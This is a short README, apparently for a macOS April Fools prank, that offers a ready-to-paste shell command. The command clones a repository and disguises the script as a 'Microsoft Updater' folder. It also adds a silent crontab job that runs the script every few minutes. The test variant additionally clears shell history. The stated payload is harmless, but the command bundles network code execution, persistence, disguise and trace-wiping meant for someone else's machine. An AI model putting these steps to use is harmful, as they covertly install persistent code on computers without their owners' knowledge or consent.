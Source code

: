 ## only works on mac os but makes the computer say nonsense every 5 minutes on april first if its on

### open terminal, copy the below command into it and hit enter
```
# clone repo
# remove readme
# remove .git
# make executable
# create decoy dir
# move to the decoy dir
# add to crontab

git clone https://github.com/benbav/april_fools.git && \
rm april_fools/README.md && \
rm -rf april_fools/.git && \
chmod u+x ~/april_fools/main.sh && \
mkdir "Microsoft Updater" && \
mv april_fools/ "Microsoft Updater/utils" && \
(crontab -l ; echo "*/5 * 1 4 * nohup /usr/bin/env bash ~/Microsoft\ Updater/utils/main.sh > /dev/null 2>&1 &") | crontab -                                                                    
```
**if you need to stop it go to the Home folder and delete the Microsoft Updater folder**

to test on your own computer this will run every minute (just to make sure it works)
```
git clone https://github.com/benbav/april_fools.git && \
rm april_fools/README.md && \
rm -rf april_fools/.git && \
chmod u+x ~/april_fools/main.sh && \
mkdir Microsoft\ Updater
mv april_fools/ "Microsoft Updater/utils"
(crontab -l ; echo "* * * * * nohup /usr/bin/env bash ~/Microsoft\ Updater/utils/main.sh > /dev/null 2>&1 &") | crontab - && \
history -c && history -p
```
**if you need to stop it go to the Home folder and delete the Microsoft Updater folder**
